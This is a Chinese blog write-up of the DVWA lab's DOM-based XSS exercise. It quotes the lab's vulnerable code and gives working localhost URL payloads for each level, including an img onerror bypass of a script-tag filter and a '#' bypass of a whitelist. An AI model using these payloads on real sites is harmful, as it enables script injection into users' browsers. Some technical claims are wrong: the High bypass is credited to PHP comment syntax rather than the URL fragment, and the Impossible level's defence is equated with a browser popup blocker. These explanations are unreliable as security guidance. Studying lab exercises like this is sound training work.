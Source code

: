 ```yaml
---
layout:     post
title:      DVWA靶机学习——XSS (DOM)
subtitle:   这个系列是学习DVWA靶机的。今天学习XSS (DOM)，即DOM型XSS的Low、Medium、High、Impossible级别。
date:       2020-11-22
author:     HouKC
header-img: img/home-bg-universe.jpg
catalog:    true
tags:
    - CTF
    - web
    - writeup
    - 网络安全
    - dvwa
    - 靶机
---
```



## 0x00 XSS (DOM)
DOM型的XSS一般需要找到修改HTML内容的JavaScript代码，包含类似document.body.innerHtml的代码内容。


## 0x01 Low
#### 源码分析
```html
<div class="body_padded">
	<h1>Vulnerability: DOM Based Cross Site Scripting (XSS)</h1>

	<div class="vulnerable_code_area">
 
 		<p>Please choose a language:</p>

		<form name="XSS" method="GET">
			<select name="default">
				<script>
					if (document.location.href.indexOf("default=") >= 0) {
						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
						document.write("<option value='" + lang + "'>" + $decodeURI(lang) + "</option>");
						document.write("<option value='' disabled='disabled'>----</option>");
					}
					    
					document.write("<option value='English'>English</option>");
					document.write("<option value='French'>French</option>");
					document.write("<option value='Spanish'>Spanish</option>");
					document.write("<option value='German'>German</option>");
				</script>
			</select>
			<input type="submit" value="Select" />
		</form>
	</div>
```
可以看到在index.php中的script标签中，有一段JavaScript代码，意思是在select下拉框中会输出当前url中的default参数的值，可以直接插入XSS攻击脚本。

#### 解题思路
直接在url中的default参数插入XSS攻击代码即可：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English<script>alert(1);</script>
```
弹窗成功！ 


## 0x02 Medium
#### 源码分析
```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}
?> 
```
在Low级别的基础上，后台还做了检查，stripos函数过滤掉script。

大小写与双写均无法绕过，可以用img等标签攻击，但是需要闭合option和select标签，因为img标签无法在option和select标签内生效。

#### 解题思路
直接在url中的default参数插入XSS攻击代码即可：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English</option></select><img src='1' onerror='alert(1);'/>
```
弹窗成功！ 


## 0x03 High
#### 源码分析
```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
?> 
```
在Low级别的基础上，做了switch-case选择，只有在正确匹配的时候才会继续，否则都默认跳转到default=English的情况。

咋一看可能没有办法绕过了，但是php中还可以利用单行注释符#号进行绕过。

#### 解题思路
构造注入语句如：
```html
French# <script>alert(1);</script>
```
就会在case的时候只用#号前面的字符串进行匹配，即French（使用其它几个也可以），后面的攻击代码会被当做注释；但整个字符串在后面还是会作为变量继续在HTML中输出。从而导致XSS攻击。

在url中的default参数插入XSS攻击代码即可：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English# <script>alert(1);</script>
```
弹窗成功！


## 0x04 Impossible
#### 源码分析
无源码。

这一级别是直接用客户端浏览器自带的XSS Filter功能来防止弹框，而没有设置后台XSS检查。

打开ie浏览器 -> Internet选项 -> 隐私 -> 勾选\“启用弹出窗口阻止程序\” -> 确定。

然后再去访问如下链接时：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English<script>alert(1);</script>
```
就会发现浏览器进行了阻止，从而达到保护的目的。

#### 解题思路
无。


## 0x05 小结
防御方法：
- 同其他类型XSS注入一样。
- 客户端浏览器自身启动XSS Filter功能。